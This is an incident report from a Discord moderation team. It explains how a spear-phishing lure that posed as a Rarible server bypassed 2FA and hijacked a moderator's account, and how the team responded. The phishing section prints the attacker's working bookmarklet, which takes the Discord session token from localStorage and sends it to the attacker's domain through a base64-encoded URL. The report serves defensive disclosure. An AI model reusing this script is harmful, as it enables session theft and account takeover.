 # 2023-05-29 Incident Report
## Summary
* One of our team member's Discord account was compromised via a spear phishing attack.
* 2FA was enabled, but the attack vector was able to bypass it.
* The attacker spammed scam messages on several of our clients' Discord servers.
* The attacker modified roles and permissions in at least one client's Discord server.
* We were able to kick the team member from all client Discord servers within about 15 minutes of the attack.
* We were able to delete the spam messages generated by the attacker almost immediately in servers where we have message delete permissions.
* We were able to identify how the attacker gained access and revoke it.

## Spear Phishing
The attacker reached out to all of our team members individually at different times making a reasonable sounding request for moderation services in their Discord server.
The attacker claimed to be from Rarrible and had a vanity Discord invite for a Rarible Discord server with a significant number of members.
The attacker's Discord server required verification (as is common across crypto Discord servers) which used a Discord integration to send the user to the attacker's website.
<details>
	<summary>Third Party Connection Request Image</summary>
	<img src="../images/attacker%20third%20party%20connection%20prompt.png" alt="third party connection request" width="400"/>
</details>

Upon authorizing, the victim was sent to ⚠️❗`https://asset-vulcan.com`❗⚠️ where the victim is instructed to complete the verification process by adding a bookmarklet and then opening discord in a browser window and clicking on the bookmarklet.

<details>
	<summary>Attacker Website Instructions Image</summary>
	<img src='../images/attacker%20website%20instructions.png' alt='attacker website instructions' width='600'/>
</details>

<details>
	<summary>Bookmarklet contents (formatted for readability)</summary>

```js
javascript: ! function() {
	if ('https://discord.com' !== this.document.location.origin) {
		alert('Drag this button to your bookmark and go to discord.com to get verified.')
	} else {
		location.reload()
		var i = document.createElement('iframe')
		document.body.appendChild(i)
		var token = i.contentWindow.localStorage.token
		token = token.replaceAll(atob('Ig=='),'')
		location.href = atob('aHR0cHM6Ly9hc3NldC12dWxjYW4uY29tL2FwaS92ZXJpZnk/ZGF0PQ==') + token
	}
}()
```
</details>
As soon as the victim follows these instructions, their logged in session token will be sent to the attacker.
The attacker will then be able to utilize that session (which already has gone through 2FA) to interact with Discord as that user.

## Triage
Our team strives to have at least 2 people on duty at all times, which paid off in this case because as soon as the attacker started spamming it was immediately noticed by another team member who was on shift.
Upon seeing the spammer, the team member deleted the spam messages they could, warned users to ignore the ones they couldn't, and alerted the Serv.eth founder (Micah Zoltu) of the issue (all within a minute of the spam commencing).
Upon receiving notification of the issue, our founder immediately began revoking all roles the compromised account had in all of our client's servers that our founder had access to do so in (most of them).
After this was complete, we realized that there was still a risk that the attacker may have sent direct messages to server members and so to further mitigate potential damage, the victim's account was then kicked from all of our client's discord servers.
The whole process took just under 15 minutes from time of compromise to being kicked from all servers.

## Recovery
Upon completion of the initial triage, we alerted all of our clients of the compromise in private channels within their respective Discord servers.
We were also able to establish contact with the victim and have them revoke all of their sessions, thus removing the attacker's access.

<details>
	<summary>How to Revoke All Sessions in Discord</summary>
	<img src='../images/revokee%20attacker%20access.png' alt='how to revoke all Discord sessions' width='600'/>
</details>

We then looked through the audit logs of all client discord servers where we have permission to do so and verified that the attacker didn't do anything other than spam.
There was one client's Discord server where the attacker removed some roles from users and adjusted channel permissions which had to be undone.
After reviewing the audit log, we then reviewed our team's permissions in servers where we have access to do so and removed "Manage Roles" permission from all except our founder where appropriate so any future compromise has limited damage.

## Future Protection
While our team is quite familiar with various scams and attacks in the crypto space since we deal with it daily, this one was novel in that it was targeted specifically at moderators and it utilized a bookmarklet as a novel delivery mechanism.
Our internal policy already requires 2FA for all of our members to help limit the chances of this sort of thing occurring, but unfortunately this attack vector is able to bypass 2FA requirements.
The primary thing we will be doing internally to limit the chance of this happening again is additional training both on the specifics of this attack (bookmarklets) as well as general best practices of not doing anything that is out of the ordinary.

For our clients, we recommend reviewing all permissions and ensuring only necessary permissions are given whenever possible.
In this case, our team had "Manage Roles" permission in several servers which wasn't something that everyone needed (only one of us needs to be able to add/remove team members) and in one server this permission was leveraged to make the attack worse.
In many of our client servers we do need kick/ban permissions in order to be able to help manage spammers/scammers, but luckily the attacker didn't appear to leverage this permission during the attack.

We also will continue to strive to always have multiple people on-shift at a time to ensure we can respond quickly to situations like this, as well as making sure there is a way to quickly escalate to our founder who has additional permissions in most servers so they can kick any of our team's compromised accounts should this happen again.